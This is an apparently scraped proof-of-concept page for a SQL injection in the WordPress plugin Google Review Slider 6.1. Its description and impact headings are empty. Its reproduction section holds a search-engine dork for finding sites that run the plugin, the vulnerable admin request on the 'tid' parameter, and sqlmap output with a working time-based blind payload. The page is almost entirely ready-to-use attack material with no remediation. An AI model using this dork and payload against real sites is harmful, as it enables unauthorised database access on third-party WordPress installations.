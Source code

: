 # WordPress Plugin - Google Review Slider 6.1 SQL Injection

### 一、漏洞简介

### 二、漏洞影响

### 三、复现过程


```bash
inurl:"/wp-content/plugins/wp-google-places-review-slider/"
```

POC :


```bash
 GET/wp-admin/admin.php?page=wp_google-templates_posts&tid=1&_wpnonce=***
 &taction=edit HTTP/1.1
```

sqlmap result


```bash
sqlmap identified the following injection point(s) with a total of 62 HTTP(s) requests:
---
Parameter: tid (GET)
Type: time-based blind
Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
Payload: page=wp_google-templates_posts&tid=1 AND (SELECT 5357 FROM
(SELECT(SLEEP(5)))kHQz)&_wpnonce=***&taction=edit
```